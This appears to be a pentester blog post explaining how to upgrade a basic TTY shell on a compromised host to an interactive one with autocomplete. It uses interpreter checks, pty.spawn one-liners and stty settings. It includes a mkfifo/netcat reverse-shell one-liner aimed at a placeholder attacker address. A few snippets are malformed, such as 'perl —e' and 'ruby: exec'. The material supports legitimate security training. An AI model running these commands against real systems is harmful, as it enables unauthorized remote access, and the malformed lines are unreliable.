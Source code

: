 ```yaml
---
title:  Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters
date: 2024-11-06 10:10:00 +0700
categories: [Other]
tags: [Other, tty-shell, autocomplete]
pin: false
description: Upgrading TTY Shell
---
```


## Upgrading an autocomplete TTY shell on Linux and Windows: a guide for pentesters

### Introduction

When working with command-line interfaces on compromised machines, it is common to be limited to basic TTY shells that lack essential features like autocomplete and history. Upgrading these shells can significantly improve usability and efficiency during post-exploitation. This guide covers methods to upgrade TTY shells on both Linux and Windows targets to provide functionalities such as command history and tab completion, making them easier to work with.

### Verify installed language(s)

Before attempting to upgrade or interact with shells, it's important to verify which interpreters and shells are available on the target system. This helps determine the best approach to proceed. Here's how to check which interpreters or shells are installed:
```shell
# Check if Python is installed and its location
which python    # Output will show the path if Python 2.x is installed

# Check for Python 3 installation
which python3   # Output will show the path if Python 3.x is installed

# Verify if Bash is available
which bash      # Output will show the path if Bash is installed

# Check for PowerShell on a Linux machine (if applicable)
which pwsh      # This shows if PowerShell Core is available on Linux

# For Windows, check in Command Prompt or PowerShell for presence
where python    # Equivalent to 'which' in Windows
where python3
where bash
```
### Examples

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
```

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
echo os.system('/bin/bash')
```

```bash
/bin/sh -i
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
ruby: exec "/bin/sh"
```

```shell
# if python isn't installed, then use:
script /dev/null -c bash
/usr/bin/script -qc /bin/bash /dev/null
```

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.xxx.xxx 9001 >/tmp/f
```
After you have choosen one of these, to get an autocomplete shell, use:

```bash
ctrl-z 

stty raw -echo; fg

# send to background

# On attacker's machine

stty raw -echo 

stty -a 

get local number of rows & columns
fg 
# Press Enter Enter

Now you should have an autocomplete shell
```
